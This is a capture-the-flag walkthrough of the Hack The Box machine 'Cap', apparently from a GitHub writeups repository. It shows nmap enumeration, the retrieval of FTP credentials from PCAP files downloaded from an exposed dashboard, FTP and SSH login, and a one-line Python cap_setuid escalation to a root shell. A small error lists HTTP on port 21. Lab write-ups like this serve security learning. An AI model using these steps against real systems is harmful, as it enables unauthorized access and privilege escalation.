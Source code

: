 ## Default Information
IP address : 10.10.10.245/
Operating System : Linux

## Enumeration
Lets start with running a network scan on the IP address using ```NMAP``` to identify the open ports and the services running on the open ports (NOTE: This might take up quite some time)
* sV : service detection
* sC : Run default nmap scripts
* A : identify the OS behind each ports
* -p- : scan all ports
```code 
sudo nmap -sC -sV -A -p- -T4 10.10.10.245 -vv
```
From the output of ```NMAP```, we are able to obtain the following information about the open ports:
| Port Number | Service | Version |
|-----|------------------|----------------------|
| 21	| FTP | vsftpd 3.0.3 |
| 22	| SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0) |
| 21	| HTTP | Gunicorn |

## Discovery
Visiting the webpage at ```10.10.10.245```, the site appears to be a security dashboard
![Screenshot of 10.10.10.245](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_securitydashboard.PNG)
The ```IP config``` and ```Network Status``` does not contain any fascinating information, but the ```security snapshot``` contains a PCAP file that can be downloaded. 
![Screenshot of security snapshot](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_securitysnapshot.PNG)
We will then proceed to save the PCAP file downloaded from ```http://10.10.10.245/data/0``` , ```http://10.10.10.245/data/1```, ```http://10.10.10.245/data/2``` and ```http://10.10.10.245/data/3```\
Viewing the PCAP file from ```http://10.10.10.245/data/0```, we are able to discover that there is a connection to the FTP server, and we are also able to retrieve the username and password to the FTP server
![Screenshot of FTP server](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_FTP.PNG)

## Exploitation
Now, we will login to the FTP server using the discovered username and password. Afterwards, we will download the ```user.txt``` file to our server.
```code                                                                           
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.245                                                     1 ⚙
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 08 10:24 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (298.3941 kB/s)
ftp>
```
We will find the key from the ```user.txt``` file using the ```cat``` command, to obtain our user key.\
Remembering that we have an SSH serve, we will now try to login to the SSH server. In the SSH server, we notice that the user ```nathan``` is unable to run sudo commands. Hence,we will start by searching for sudo permissions or SUID binaries that could escalate privileges and help us obtain the root shell.
```code
──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245                                              2 ⚙
nathan@10.10.10.245's password: 
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$ 
```
We notice that ```python 3.8``` has a ```setuid``` command that can help us escalate to UID 0(root) and obtain a root shell. From there, we will be able to obtain our system flag.
```code
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cd /root
root@cap:/root# cat root.txt
```
